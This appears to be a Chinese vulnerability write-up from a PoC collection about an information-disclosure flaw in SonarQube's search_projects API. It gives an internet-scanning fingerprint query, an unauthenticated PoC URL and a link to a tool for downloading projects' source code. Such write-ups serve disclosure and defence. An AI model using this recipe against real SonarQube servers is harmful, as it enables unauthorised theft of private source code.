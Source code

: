 # SonarQube search_projects 项目信息泄露漏洞

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以通过工具下载源码

## 漏洞影响

<a-checkbox checked>SonarQube</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="sonarQube-代码管理"</a-checkbox></br>

## 漏洞复现

主页如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628578104263-4058ad67-3556-4948-bb84-80b780f6a808.png)



漏洞POC

```plain
http://xxx.xxx.xxx.xxx/api/components/search_projects
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628578139002-6ae5f685-2e56-488e-9bd8-ca7c17d40416.png)

可通过工具下载项目中的源代码 



https://github.com/deletescape/sloot

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628578178570-b0b44348-d38e-4988-975a-f7540c3871c1.png)